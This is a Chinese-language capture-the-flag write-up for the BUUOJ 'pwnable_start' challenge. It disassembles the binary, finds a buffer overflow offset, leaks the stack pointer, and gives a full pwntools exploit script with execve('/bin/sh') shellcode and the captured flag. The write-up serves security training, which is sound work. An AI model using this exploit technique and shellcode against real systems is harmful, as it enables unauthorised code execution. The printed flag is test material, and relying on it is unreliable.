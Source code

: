 # pwnable_start

[题目地址](https://buuoj.cn/challenges#pwnable_start)

关于汇编pwn的start。

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

这题的伪代码根本看不了，只能看汇编。

```
        08048060 54              PUSH       ESP=>local_4
        08048061 68 9d 80        PUSH       _exit
                 04 08
        08048066 31 c0           XOR        EAX,EAX
        08048068 31 db           XOR        EBX,EBX
        0804806a 31 c9           XOR        ECX,ECX
        0804806c 31 d2           XOR        EDX,EDX
        0804806e 68 43 54        PUSH       0x3a465443
                 46 3a
        08048073 68 74 68        PUSH       0x20656874
                 65 20
        08048078 68 61 72        PUSH       0x20747261
                 74 20
        0804807d 68 73 20        PUSH       0x74732073
                 73 74
        08048082 68 4c 65        PUSH       0x2774654c
                 74 27
        08048087 89 e1           MOV        ECX,ESP
        08048089 b2 14           MOV        DL,0x14
        0804808b b3 01           MOV        BL,0x1
        0804808d b0 04           MOV        AL,0x4
        0804808f cd 80           INT        0x80
        08048091 31 db           XOR        EBX,EBX
        08048093 b2 3c           MOV        DL,0x3c
        08048095 b0 03           MOV        AL,0x3
        08048097 cd 80           INT        0x80
        08048099 83 c4 14        ADD        ESP,0x14
        0804809c c3              RET
```

发现int 0x80，这不是32位的[系统调用](https://blog.csdn.net/xiaominthere/article/details/17287965)吗？第一个0x80前eax（al就是eax的低位，同理dl是edx的低位，bl是ebx的低位）是0x4，对应着是write；第二个0x80前eax是0x3，就是read了。这题一个让我纠结的一点是调用的read把我的输入存在哪了。理论上ecx里是第二个参数也就是存储的缓冲区，然而第二个0x80前根本就没动过ecx，唯一可能的地方只能是之前的`MOV        ECX,ESP`了。这么看来是把输入存到esp对应的地方了，问题是咱也不知道那个地方多大，读进去0x3c大小会不会溢出导致rop。那就调试吧，用pwntools自带的[cyclic](https://ch4r1l3.github.io/2018/07/19/pwn%E4%BB%8E%E5%85%A5%E9%97%A8%E5%88%B0%E6%94%BE%E5%BC%83%E7%AC%AC%E5%9B%9B%E7%AB%A0%E2%80%94%E2%80%94pwntools%E7%9A%84%E5%9F%BA%E6%9C%AC%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/)函数找偏移。具体操作就是本地运行程序并开启gdb，在返回处下一个断点，发送cyclic生成的payload后查看eip变成了啥，再用cyclic_find就能找到偏移了。最后发现是0x14。

然后想想怎么getshell。最开始checksec能发现啥也没开，那ret2shellcode不错。构造payload`b'a'*0x14+ret_addr+b'b'*0x14`进行调试，发现b出现的位置固定在esp地址偏移0x14的位置，意味着我们ret_addr填`esp+0x14`就能返回到shellcode的位置。

如何泄露esp地址？我们输入0x14个a填充，返回地址填0x08048087。因为这里有一句`MOV        ECX,ESP`，接下来执行0x80时就会调用write把esp的值打印出来。接下来还有一个read，该利用这次rop getshell了。直接把刚刚调试的payload改一下，`b'a'*0x14+(esp+0x14)+shellcode`。

```python
from pwn import *
p = remote("node4.buuoj.cn",25855)
ret_addr = 0x08048087
payload = b"a" * 0x14 + p32(ret_addr)
p.sendafter(":",payload)
esp = u32(p.recv(4))
shellcode=b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload= b'a' * 0x14 + p32(esp + 0x14) + shellcode
p.send(payload)
p.interactive()
```

## Flag
> flag{6d8d4d06-d98a-47ef-9306-9896228bab1c}